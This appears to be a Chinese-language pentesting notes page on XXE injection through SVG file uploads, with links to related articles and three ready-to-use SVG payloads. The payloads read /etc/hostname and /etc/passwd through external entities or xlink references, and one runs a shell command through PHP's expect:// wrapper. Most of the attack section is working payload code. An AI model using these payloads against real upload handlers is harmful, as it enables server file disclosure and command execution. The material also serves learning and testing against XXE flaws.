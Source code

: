 # 文章
[XML外部实体注入（XXE）攻击方式汇总 - 跳跳糖](https://tttang.com/archive/1813/)<br />[XML外部实体注入（XXE）攻击方式汇总](https://mp.weixin.qq.com/s/4vc1Ee1qjrbyy-0dRHAlNw)<br />[XML外部实体注入（XXE）攻击方式汇总.pdf](https://www.yuque.com/attachments/yuque/0/2023/pdf/25358086/1689494214508-cdf0cf4b-6757-461f-958d-bba1041d655f.pdf)
# Hidden XXE Surfaces
### SVG - File Upload
一些应用程序允许用户上传文件，然后在服务器端进行处理。一些常见的文件格式使用XML或包含XML子组件。基于XML的格式有DOCX等办公文档格式和SVG等图像格式。<br />例如，应用程序可能允许用户上传图像，并在上传后在服务器上处理或验证这些图像。即使应用程序希望接收PNG或JPEG等格式，正在使用的图像处理库也可能支持SVG图像。由于SVG格式使用XML，所以攻击者可以提交恶意SVG图像，从而进行XXE攻击。
```powershell
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
	<image xlink:href="file:///etc/hostname"></image>
</svg>
```
您还可以尝试使用PHP “expect”包装器执行命令：
```powershell
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```
需要注意的是，读取文件或执行结果的第一行将出现在创建的图像内。因此，您需要能够访问SVG创建的图像。
#### 其他payload
```powershell
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
<!ENTITY file SYSTEM "file:///etc/passwd" >
]>
<svg height="100" width="1000">
  <text x="10" y="20">&file;</text>
</svg>
```
